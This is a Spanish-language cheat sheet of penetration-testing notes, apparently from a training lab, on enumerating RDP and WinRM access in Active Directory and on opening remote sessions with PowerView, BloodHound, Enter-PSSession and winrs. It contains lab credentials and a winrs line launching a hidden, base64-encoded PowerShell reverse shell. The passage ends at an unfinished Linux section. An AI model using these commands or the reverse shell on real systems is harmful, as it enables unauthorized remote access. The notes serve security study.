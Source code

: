 ## RDP
### Enumerando usuarios y equipos del grupo RDesktop 
#### Comprobando usuarios que tienen acceso vía rdp a un equipo 
- Con Powershell `Get-NetLocalGroupMember`
	```powershell
	Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
	```
- Con `bloodound` 
	- Seleccionamos el nodo
	- Buscamos inbound execution rights (derechos de ejecución entrante)
	- Opciones RDP
#### Buscando equipos que permitan RDP 
- PowerView (No comprobado)
	```powershell
	$computers = Get-NetComputer -FullData | Select-Object dnshostname 
	foreach ($computer in $computers) { Get-NetLocalGroupMember -ComputerName $computer.dnshostname -GroupName "Remote Desktop Users" }
	```
- Bloodhound
	```cypher
	match p=(g:Group)-[:CanRDP]->(c:Computer)  where g.name STARTS WITH 'DOMAIN USERS'  AND c.operatingsystem CONTAINS 'Server'  return p
	```
## WinRM
### Enumerando usuarios del grupo Remote Managment
- **Con powerview** `Get-NetLocalGroupMember`
    ```powershell
     Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
    ```
    
- Con query personalizada en bloodhound
    ```
    MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p
    ```
### Estableciendo sesión
#### `Enter-PSSession` - Powershell
Opción si tenemos powershell tanto en la máquina atacante como a la que queremos pivotar. Crea una sesión interacitva
- Ejemplo de creación de sesión
	```powershell
		$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -ForcePS $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password) 
		Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
	```
#### Windows - `winrs`: Sin powershell. 
Está más indicado para ejecutar comandos individuales y no requiere powershell en el servidor. 
- Ejemplo de ejecución de comandos: 
	```powershell
	winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
	```
- Ejemplo de revshell
```powershell
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQ...bABvAHMAZQAoACkA"
```
- Linux
	```bash